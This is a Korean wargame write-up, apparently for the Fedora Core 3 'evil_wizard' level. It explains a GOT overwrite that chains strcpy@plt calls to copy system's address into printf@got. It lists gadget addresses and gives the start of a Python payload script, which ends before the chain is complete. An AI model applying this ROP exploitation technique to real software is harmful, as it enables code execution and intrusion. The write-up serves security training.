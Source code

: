 


got overwrite가 힌트이니 이를 이용하여 풀면 될 것 같다.

strcpy로  printf@got 주소에 system주소로 덮어씌워 printf를 실행 할때 system이 실행되도록 할 것이다.



준비물 : 

- ppr : 0x804854f
  - <img src="http://eliez3r.synology.me/assets/img/writeup/fc3/4.evil_wizard/image-20180809170708362.png" width="500px">
- strcpy@plt : 0x8048494
  - <img src="http://eliez3r.synology.me/assets/img/writeup/fc3/4.evil_wizard/image-20180809174715247.png" width="500px">
- printf@plt : 0x8048424
  - <img src="http://eliez3r.synology.me/assets/img/writeup/fc3/4.evil_wizard/image-20180809174758872.png" width="500px">
- printf@got : 0x8049884
  - <img src="http://eliez3r.synology.me/assets/img/writeup/fc3/4.evil_wizard/image-20180809170948428.png" width="500px">
- system : 0x7507c0
  - <img src="http://eliez3r.synology.me/assets/img/writeup/fc3/4.evil_wizard/image-20180809171126383.png" width="500px">
- "/bin/sh" : 0x833603
  - <img src="http://eliez3r.synology.me/assets/img/writeup/fc3/4.evil_wizard/image-20180809171716207.png" width="500px">



여기서 중요한 것은 strcpy의 함수 정의를 알아볼 필요가 있다.

```c
char *strcpy(char *dest, const char *src);
```

src와 dest가 포인터이다. 즉, 주소값에 데이터를 복사한다. 따라서 printf@got에 system함수 주소 0x7507c0를 넣을려면 0x00, 0x75, 0x07, 0xc0이 들어있는 주소를 찾아서 1바이트씩 복사해야 한다.



<img src="http://eliez3r.synology.me/assets/img/writeup/fc3/4.evil_wizard/image-20180809172445160.png" width="500px">

0x00 : 0x8048138

<img src="http://eliez3r.synology.me/assets/img/writeup/fc3/4.evil_wizard/image-20180809172532184.png" width="500px">

0x75 : 0x80482c8

<img src="http://eliez3r.synology.me/assets/img/writeup/fc3/4.evil_wizard/image-20180809172727779.png" width="500px">

0x07 : 0x8048148 + 0xc = 0x8048154

<img src="http://eliez3r.synology.me/assets/img/writeup/fc3/4.evil_wizard/image-20180809172859044.png" width="500px">

0xc0 : 0x8048414 + 0xc = 0x8048420



```python
import struct

p32 = lambda x : struct.pack("<L", x)

strcpy_plt = 0x8048494
ppr = 0x804854f
printf_plt = 0x8048424
printf_got = 0x8049884
system_addr = [0x8048420, 0x8048154, 0x80482c8, 0x8048138]
binsh = 0x833603

payload  = "A"*264  # dummy
payload += "B"*4  # sfp

```